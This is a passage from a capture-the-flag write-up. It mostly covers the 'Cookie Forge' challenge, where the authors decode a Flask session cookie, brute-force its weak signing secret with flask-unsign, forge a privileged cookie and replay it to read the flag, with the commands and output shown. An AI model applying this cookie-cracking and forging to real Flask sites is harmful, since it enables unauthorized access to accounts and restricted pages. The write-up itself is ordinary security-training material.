 We where probably supposed to do some XSS to get the flag but we got it either
way.

    :::text
    $ echo -ne 'ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99' | base64 -d
    flag{x55_i5Nt_7hA7_bAD_R1Gh7?}[


## Cookie Forge

> Help a new local cookie bakery startup shake down their new online ordering and loyalty rewards portal at https://cookie-forge.cha.hackpack.club!

> I wonder if they will sell you a Flask of milk to go with your cookies...

The website is using flask. A page is reserved for premium member.

We know that [flask cookie have some issues](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce).

We place an order. Login as `toto:toto` get the cookie and pass it to
`flask-unsign`. The tool can decode it as the secret is only use to sign the
cookie.

    :::text
    $flask-unsign -d -c 'eyJmbGFnc2hpcCI6ZmFsc2UsInVzZXJuYW1lIjoidG90byJ9.Xp2SeA.1l6nDFaIsDZ8bCXcxdtORRVIBK0'
    {'flagship': False, 'username': 'toto'}

We need to get the secret to forge our own cookie

    :::text
    $ flask-unsign --server https://cookie-forge.cha.hackpack.club/orders --unsign
    [*] Server returned HTTP 302 (Found)
    [+] Successfully obtained session cookie: eyJfZmxhc2hlcyI6W3siIHQiOlsid2FybmluZyIsIllvdSBtdXN0IGxvZyBpbiBmaXJzdCEiXX1dfQ.Xp2TwA.IiGnkGfSx0j-O_vLTjmUyU95zLQ
    [*] Session decodes to: {'_flashes': [('warning', 'You must log in first!')]}
    [*] No wordlist selected, falling back to default wordlist..
    [*] Starting brute-forcer with 8 threads..
    [+] Found secret key after 39090 attempts
    'password1'

We modify the `flagship` value and sign our cookie with the secret `password1`

    :::text
    $ flask-unsign --sign --secret password1 --cookie "{'flagship': True, 'username': 'toto'}"
    eyJmbGFnc2hpcCI6dHJ1ZSwidXNlcm5hbWUiOiJ0b3RvIn0.Xp2TRQ.XlXCKJYANDb9ghp5ms_fKQhTkVY

Using Burp repeater we modify our cookie to get the flag

    :::text
    GET /flag HTTP/1.1
    Host: cookie-forge.cha.hackpack.club
    Cookie: session=eyJmbGFnc2hpcCI6dHJ1ZSwidXNlcm5hbWUiOiJ0b3RvIn0.Xp2TRQ.XlXCKJYANDb9ghp5ms_fKQhTkVY
    Upgrade-Insecure-Requests: 1


    HTTP/1.1 200 OK
    Content-Length: 2617
    Content-Type: text/html; charset=utf-8
    Date: Mon, 20 Apr 2020 12:26:22 GMT
    Server: meinheld/1.0.1
    Vary: Cookie
    <SNIP>
    <p>You are a <em>special</em> customer!
        To come back for more, sugar-coma after sugar-coma, in the face of mounting pressure from your doctors,
        your family, and your own common sense&hellip;
        <strong>That's</strong> dedication.
    </p>